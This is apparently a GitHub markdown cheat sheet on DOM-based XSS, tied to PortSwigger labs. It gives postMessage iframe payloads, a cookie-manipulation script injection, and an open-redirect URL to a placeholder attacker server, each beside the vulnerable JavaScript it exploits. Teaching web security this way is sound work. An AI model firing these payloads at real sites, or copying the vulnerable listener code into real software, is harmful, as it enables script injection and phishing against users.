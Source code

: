 # DOM-based Vulnerabilities

## Summary

* [Recon for DOM-based Vulnerabilities](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)


## Resources

* https://portswigger.net/web-security/dom-based

* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting

* https://owasp.org/www-community/attacks/DOM_Based_XSS



## Recon

### Identify DOM-based Vulnerabilities

* DOM XSS happens when client-side JavaScript takes user-controllable input (source) and includes it into a dangerous function (sink).

* Use the Browser's Developers Tool and go to the Sources/Debugger tab.  In every page we can search for the keyword “script”, and we can also search through all the JavaScript files.

* In these files/pages, we can search for any **user-controllable sources** and **dangerous sinks** that the JavaScript is using.

* Analyze if JavaScript is taking any sources and including them into dangerous sinks.

* Search all static JavaScript files too.

* The labs in this document and in the [Cross-site Scripting/DOM XSS](#https://portswigger.net/web-security/cross-site-scripting/dom-based) section, include examples of user-controllable sources being used in dangerous sinks.


### Common Sources and Sinks

* https://portswigger.net/web-security/dom-based#common-sources

* https://portswigger.net/web-security/dom-based#which-sinks-can-lead-to-dom-based-vulnerabilities


---
---


## Cheat Sheet 


### Source - Web Messages

* Use web messages as a source to send malicious data to a target window that will take in that data and include it in a dangerous sink.  

    * Example:  window.postMessage(“\<img src=x onerror=alert(1)\>”)
    
    * Payload: 

```html
<iframe src="https://VULNERABLE-APPLICATION.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
<br>

* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
</script>
```

<br></br>
### Source - Web Messages location.href()

* Use web messages as a source to send malicious data to a target window that will take in that data and include it in a dangerous sink.  Example, the code will place the user-controllable input into the location.href sink, if the message contains the String “http:”. 

    * Example:  window.postMessage(“javascript:alert(1)//http:”)
    
    * Payload: 

```html
<iframe src="https://VULNERABLE-APPLICATION.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```
<br>

* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
</script>
```

<br></br>

### Source - Web Messages JSON.parse()

* There is a client-side script on the application that has an event listener that is listening for a web message.  It is possible to submit crafted input which will be included in the “src” attribute of an \<iframe\>.  This is essentially the “location.href” sink.  We can use a JavaScript pseudo-protocol payload here – javascript:print()

   * Payload: 

```html
<iframe src=https://VULNERABLE-APPLICATION.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

<br>

* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
</script>
```

<br></br>

### DOM XSS - Open Redirection

* There was a client-side script on the application that is taking in a query parameter called “url” and using the value in a location.href sink.  The URL needs to begin with “https://”.  

* The JavaScript Pseudo-protocol will not work here in this case, because we don't control the beginning of the href value.  This will simply redirect a user to a different website, can be used for phishing.

   * Example:  httpss://VULNERABLE-APPLICATION.net/post?postId=4&url=httpss://*user-input*

   * Payload:
   
```
https://VULNERABLE-APPLICATION.net/post?postId=4&url=https://ATTACKER-SERVER
```

<br>

* **Vulnerable Code:**

```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>
```

<br></br>

### DOM XSS - Cookie Manipulation

* The “window.location” source is being appended to a Cookie using the “document.cookie”.  This Cookie value is reflected back in the application's response within an HTML attribute.  Submit a crafted URL that will break out of the HTML context and execute JavaScript code.

    * Example:  \<a href='httpss://VULNERABLE-APP.net/product?productId=*user-input*'\>

    * Payload:  '\>\<script\>print()\</script\>

* The iframe will first load the vulnerable URL, which  will store it in "window.location" source.  Then the onload event will redirect to another page on the application, which will trigger the javascript, as the URL is reflected in the response.

```html
<iframe src="https://VULNERABLE-APP.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://VULNERABLE-APP.net';window.x=1;">
```

<br>

* **Vulnerable Code:**

```javascript
<script>
   document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```
